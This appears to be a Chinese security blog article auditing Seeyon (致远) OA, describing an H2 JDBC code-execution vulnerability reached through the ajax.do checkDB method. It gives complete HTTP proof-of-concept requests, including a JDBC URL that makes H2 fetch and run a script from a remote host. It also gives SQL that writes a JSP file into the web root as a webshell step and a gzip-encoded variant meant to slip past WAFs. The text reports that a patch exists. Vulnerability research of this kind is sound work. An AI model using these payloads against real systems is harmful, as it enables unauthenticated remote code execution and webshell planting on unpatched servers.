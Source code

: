 致远OA代码审计系列三-H2代码执行漏洞
====================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-01 0:01 发表于北京

原文地址：[致远OA代码审计系列三-H2代码执行漏洞](https://mp.weixin.qq.com/s/xNOwuxRSr-Kt-s4-KktepA)

**漏洞描述:**

致远OA在CipSyncConfigMangerImpl的checkDB方法中, 用户可控制JDBC连接设置项, 攻击者可以构造恶意Payload实现JDBC反序列化攻击, 致远OA存在H2相关依赖, 利用此漏洞可以实现H2代码执行。理论上是一个后台漏洞. 但是配合《致远OA代码审计系列二》中提到的致远OA权限绕过, 可以实现前台RCE。

**适用版本:**

适配版本范围：V5&G6\_V5.0至V8.0SP2全系列版本、V5&G6&N\_V8.1至V8.1SP2全系列版本。

**漏洞分析:**

AjaxController中的ajaxAction方法允许调用beanCacheMap中的类, 通过传入的method参数值和arguments参数值个数获取到methode方法, 最终在通过java反射调用执行. 这也是致远OA很多漏洞路由都是/seeyon/ajax.do路由的原因. beanCacheMap中存在较多的可直接利用的类。致远OA后续很多漏洞都是通过ajax.do路由进行利用的。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbWlAfBKicdyoCjSIOtE9RXJKx7HEMFUBvibtCicwY3xgP2hwmn7eaapxlEg/640?wx_fmt=png&from=appmsg)

可以通过seeyon/WEB-INF/cfgHome/spring/目录下的xxx-manager.xml文件查看具体的映射关系。

该漏洞位置位于syncConfigManagerImpl#checkDB方法. 致远OA存在H2依赖, 利用INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql' 从远端获取 SQL，执行 CREATE ALIAS/CALL。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbW9plicVibOVLg5DsE9SHoThoXJiboTBLhPqGZSNKRs0fmYudKqOwpWibUaA/640?wx_fmt=png&from=appmsg)

最终POC

```http
POST /seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=syncConfigManager HTTP/1.1
Accept: */*
CSRFTOKEN: 
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 183
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=a; avatarImageUrl=3003611276195810894; login_locale=zh_CN
Accept-Encoding: gzip, deflate


arguments=["","org.h2.Driver","jdbc:wrap-jdbc:jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INI\\T=RUNSCRIPT FROM 'http://x.x.x.x%3a7979/bcel.sql'","a","c"]&managerMethod=checkDB
```

jdk版本在8u251之前可以用bcel加载恶意字节码

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbWwyibibPwPxkNe6MSrksAgpvHRTmShHicCKshKvpqMHyk9v3ibpdseYvYiag/640?wx_fmt=png&from=appmsg)

  写WEBSHELL:

```sql
drop alias if exists exec;
create alias test as 'void exec() throws java.io.IOException  { try { String path ="../webapps/seeyon/";java.io.PrintWriter printWriter2 = new java.io.PrintWriter(path+"seeyon2023.jsp");String shellcontent = "sectest";printWriter2.println(shellcontent);printWriter2.close(); } catch (Exception e){ }}';
call test();
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbW1xDQ0k7ibyLibS14sT03FmK4sG2psHkibQeVoywyKjogA8AgnfncgYu2A/640?wx_fmt=png&from=appmsg)

在AjaxController中当存在requestCompress参数时会根据参数进行一次解密. 在H2命令执行被WAF等进行拦截的情况可以通过该点进行绕过:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbWcwianG0In2VVQcrV1WySaEQec63CjqqNkUzgyZva4Gtsjz2VPgBwlUg/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMszfDicUF8zuOL73cxUrjhbWIwFXqVPrkojGoSwVdnTV5RspBTD0T5gZ4c9xribTRpxf0KXBU2VagSg/640?wx_fmt=png&from=appmsg)

最终绕WAF版POC:  

```http
POST /seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=syncConfigManager&requestCompress=gzip HTTP/1.1
Accept: */*
CSRFTOKEN: 
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 698
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=ccc; avatarImageUrl=3003611276195810894; login_locale=zh_CN
Accept-Encoding: gzip, deflate


arguments=%1F%C2%8B%08%00%C3%BE%C2%A9he%00%C3%BF%1D%C2%8D%5D%0B%C2%820%18F%C3%BF%C2%8A%C3%AC%C3%86%C2%9Bze%2B4%27%5E%C2%84%2D%10%C3%BC%C2%889%C2%83%C3%88%10%C2%BF%C3%88%22%C3%91%C3%A6%C2%A8%C2%BF%C3%AF%C3%B0%C3%A2%3C%3C%C3%A7%C3%AA%C3%9C%11%C3%9A%C2%A0Q%3E%C2%A1%27p%C2%92%C2%AF%5F%27%C2%B5%C2%BF%C3%9B%C2%BA%C2%A1%7FYM%C3%9B%C3%B5%C2%AD%C3%93%13%3At%03U%C3%9D%C2%AC%C3%9A%C3%9A%13%C3%BC%18%C2%B02bW%16%C2%95%C3%99%2D%13%2C%2E%C3%93%5C%C3%B8%3B%2FL%C3%82%C2%A2%10%3E%C3%8F%C2%93%2C%C3%A0%C3%A1E%18g%C2%9E%C3%86%C2%86%C3%99%2B5Q%C3%8B%C3%82%2E%01l%1F%C2%80%C3%ACm%C3%80%C3%94q%1D%C3%97%C2%9A%C3%86%06%C3%A6%C3%AF%C3%87%C3%94%C3%99J%C3%93%C2%A0%C3%87%02%27%13O%03%C2%93%00%00%00&managerMethod=checkDB
```

  

**总结:**

致远OAH2代码执行漏洞, 配合权限绕过可实现前台RCE,官方于2022-8-5发布补丁修复该漏洞。